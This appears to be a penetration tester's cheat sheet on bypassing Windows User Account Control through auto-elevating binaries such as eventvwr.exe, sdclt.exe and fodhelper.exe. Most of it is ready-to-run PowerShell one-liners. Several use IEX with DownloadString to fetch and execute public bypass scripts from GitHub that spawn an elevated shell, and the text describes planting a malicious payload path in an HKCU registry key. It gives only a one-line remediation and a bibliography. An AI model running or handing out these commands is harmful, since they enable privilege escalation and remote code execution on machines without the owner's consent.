



AutoElevate UAC bypass (Powershell)
Prerequisite:
• Windows OS > 7 (not included)
1. executable with AutoElevate and requireAdministrator “privileges” in the Manifest
Some Microsoft signed binaries, can auto-elevate themselves from Medium Integrity to High Integrity level thanks to their "Manifest" inside the executable.
If requestedExecutionLevel is set to “AsInvoker”(usually on Windows 7), it prevent auto-elevation when started from medium integrity
Strings(SysInternals): https://download.sysinternals.com/files/Strings.zip
◇ checking eventvwr.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/Strings.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\strings";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\strings\strings.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i 'level= autoelevate'"; Remove-Item -Path "$env:userprofile\desktop\file.zip"; Remove-Item -r -Path "$env:userprofile\desktop\strings";

◇ checking sdclt.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/Strings.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\strings";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\strings\strings.exe -accepteula C:\Windows\System32\sdclt.exe | findstr /i 'level= autoelevate'"; Remove-Item -Path "$env:userprofile\desktop\file.zip"; Remove-Item -r -Path "$env:userprofile\desktop\strings";

◇ checking fodhelper.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/Strings.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\strings";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\strings\strings.exe -accepteula C:\Windows\System32\fodhelper.exe | findstr /i 'level= autoelevate'"; Remove-Item -Path "$env:userprofile\desktop\file.zip"; Remove-Item -r -Path "$env:userprofile\desktop\strings";
2. If this executable does not find a registry key in HKCU, because of the current user has total permission to create or modify any key on HKCU registry, the binary is exploitable.
We can check the registry keys loaded from the executable with "Process Monitor" Sysinternal application
The operation on the registry key it need to be of this type:
1) Operation → RegOpenKey
2) Path → HKCU\Software\Classes\ms-settings\Shell\Open\command
3) Result → NAME NOT FOUND
We can add this registry key with a custom malicious value. For example a path to a malicious payload.
◇ Check eventvwr.exe (automated script)
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-EventVwrBypass.ps1 ");Invoke-EventVwrBypass -Command "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe cmd.exe"
◇ Check sdclt.exe (automated script)
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-SDCLTBypass.ps1 ");Invoke-SDCLTBypass -Command "C:\Windows\System32\cmd.exe /c cmd.exe"
◇ Check fodHelper.exe (automated script)
PS> IEX(New-Object Net.WebClient).DownloadString("https://gist.githubusercontent.com/netbiosX/a114f8822eb20b115e33db55deee6692/raw/bd61ba9db7af8ffcd57d3dbfa8208b495cdc854d/FodhelperUACBypass.ps1 ");FodhelperUACBypass -program "cmd.exe"
Remediation:
This particular technique can be remediated or fixed by setting the UAC level to “Always Notify” or by removing the current user from the Local Administrators group.
Bibliography:
• https://pentestlab.blog/2017/06/09/uac-bypass-sdclt/
• https://posts.specterops.io/fileless-uac-bypass-using-sdclt-exe-3e9f9ad4e2b3
• https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
• https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
• https://egre55.github.io/system-properties-uac-bypass/
• https://soclevelone.com/index.php/2019/01/14/bypassing-windows-uac/
----------------------------------------------------------------------------------------------------
Process Monitor (already as Administrator for testing purpose)
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/ProcessMonitor.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\procmon64.exe"; Remove-Item -Path "$env:userprofile\desktop\procmon64.exe";Remove-Item -Path "$env:userprofile\desktop\file.zip";
Filter → Filter


Process Explorer (already as Administrator for testing purpose)
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/ProcessExplorer.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\procexp.exe"; Remove-Item -Path "$env:userprofile\desktop\file.zip";